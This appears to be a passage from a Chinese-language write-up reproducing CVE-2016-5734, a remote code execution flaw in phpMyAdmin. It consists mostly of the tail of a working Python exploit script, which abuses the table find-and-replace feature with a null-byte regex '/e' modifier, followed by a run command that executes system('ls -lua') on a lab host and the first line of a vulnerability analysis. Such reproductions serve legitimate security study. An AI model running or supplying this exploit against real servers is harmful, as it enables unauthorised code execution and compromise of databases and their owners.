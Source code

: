 ```python
                    first = resp.json()["error"][resp.json()["error"].find("<code>")+6:]
                    error = first[:first.find("</code>")]
                    if "already exists" in error:
                        print(error)
                    else:
                        print("ERROR: " + error)
                        sys.exit(1)
    # build exploit
    exploit = {
        "db": db,
        "table": table,
        "token": token,
        "goto": "sql.php",
        "find": "0/e\0",
        "replaceWith": payload,
        "columnIndex": "0",
        "useRegex": "on",
        "submit": "Go",
        "ajax_request": "true"
    }
    resp = s.post(
        url_to_pma + "/tbl_find_replace.php", exploit, cookies=requests.utils.dict_from_cookiejar(s.cookies)
    )
    if resp.status_code == 200:
        result = resp.json()["message"][resp.json()["message"].find("</a>")+8:]
        if len(result):
            print("result: " + result)
            sys.exit(0)
        print(
            "Exploit failed!\n"
            "Try to manually set exploit parameters like --table, --database and --token.\n"
            "Remember that servers with PHP version greater than 5.4.6"
            " is not exploitable, because of warning about null byte in regexp"
        )
        sys.exit(1)
```

运行命令：

```shell
test.py -u root --pwd="root" http://192.168.79.128:32769/ -c "system('ls -lua');"
```

运行效果：

![image-20230202194526421](/CVE-2016-5734/image-20230202194526421.png)

## 漏洞分析

从上面的`POC`中可以看出，代码分别向目标请求了三次
